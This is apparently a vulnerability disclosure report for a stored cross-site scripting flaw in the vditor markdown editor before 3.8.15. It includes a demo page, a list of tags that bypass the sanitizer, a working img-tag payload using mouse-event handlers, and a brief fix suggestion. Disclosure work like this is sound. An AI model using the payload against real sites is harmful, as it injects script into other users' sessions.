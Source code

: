 # 	Report

### Exploit Title: 

Cross-site Scripting (XSS) - Stored in GitHub repository vanessa219/vditor.

### Version:

vanessa219/vditor prior to its latests version 3.8.15.

### Date:

2022.7.1

### Exploit Author:

fengx1a0

### Software Link:

https://github.com/Vanessa219/vditor

### Offical Demo Link:

https://b3log.org/vditor/demo/option-mode.html

### Short Analysis Report:

**environment：**

I tested the application of vditor with its cdn:  https://cdn.jsdelivr.net/npm/vditor ,the version of this cdn is 3.8.15.

Here is a sipmle Demo:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS Demon</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/vditor/dist/index.css">
    <script src="https://cdn.jsdelivr.net/npm/vditor"></script>
</head>
<body style="background-color: #fff;">
    <textarea id="desc" style="display: none;">
        123
    </textarea>
    <div id="edit"></div>
    <script>
        var edit = new Vditor('edit', {
            cache: {
                enable: false
            },
            value: document.getElementById('desc').value,
            width: '100%',
            height: window.innerHeight,
            preview: {
                markdown: {
                    sanitize: true //default security mode
                }
            }
        });
    </script>
</body>
</html>
```

**analyse：**

First, I made sure that the user's input would be processed by the application and rendered on the page.

After performing black-box testing, I found that if I used some special tags in the editor, tags that could cause the script to execute would be parsed afterwards.

Here are some special tags:

```
<object></object>
<script></script>
<form >
<input autofocus>\n
```

Now I can use dangerous tags like img, iframe, etc.

But I found that many tag attributes are disabled by the application, such as onerror, onload, etc.

Then I started another fuzzing, looking for a tag that could execute javascript code.

Eventually I found that the frame tag and its src attribute could execute javacript code, and my poc looked like this

```
<script></script><img src=https://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png onmouseleave=alert(123) onmouseenter=alert(456)>
```

onmouseleave and onmouseenter are the two main public properties of the dom tag, it can be used to trigger events, if the mouse moves to the picture will trigger the onmouseenter event, leave the picture will trigger the onmouseleave event, these events can execute arbitrary JavaScript code, but the application does not filter these two properties, which leads to the attacker can construct a normal large size image, as long as the victim mouse over the image or move out of the image will immediately trigger the event to achieve arbitrary javascript code execution.

This is stored xss and has a very high probability of triggering.

![image-20220701035802875](images/image-20220701035802875.png)

The offical demo can also be triggered. 

### Repair Solutions:

Remove vulnerable characters from DOM elements or disable inline frames.